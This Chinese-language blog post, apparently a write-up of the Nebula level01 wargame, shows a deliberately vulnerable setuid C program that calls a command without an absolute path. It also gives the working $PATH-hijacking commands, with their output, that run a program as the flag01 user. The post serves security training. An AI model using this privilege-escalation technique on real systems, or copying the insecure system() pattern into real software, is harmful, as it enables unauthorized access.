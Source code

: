 ```yaml
---
title: "Exploit Exercises - Nebula Level01"
date: 2014-01-09T14:54:40+08:00
categories:
- Security
- Exercises
- Nebula
---
```


有了level00的铺垫，level01就非常简单直接了。感觉上Nebula系列的基本要求是用levelXX用户登录，通过放在/home/flagXX目录下的可执行程序来获得flagXX的用户权限，对于level01而言，可执行程序为/home/flag01/flag01，其源代码在网站上给出了：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

<!-- more --> 

前边代码的作用在上一篇博客中提到了，为了使当前的effective uid为flag01，所以system这一句是以flag01这个user的权限执行的。通过/usr/bin/env程序执行了echo程序，在屏幕上打印“and now what？”，不过在执行echo这个命令的时候没有使用绝对路径，使得通过修改$PATH来执行任意程序成为了可能。在本例中，通过修改$PATH和重定向来直接以flag01用户执行/bin/getflag程序：

``` bash
~ $ export PATH=/home/level01:$PATH
~ $ ln -s /bin/getflag /home/level01/echo
~ $ /home/flag01/flag01
You have successfully executed getflag on a target account
```

这样就可以了。通过重定向其他程序为/home/level01/echo，可以用flag01用户执行任意程序。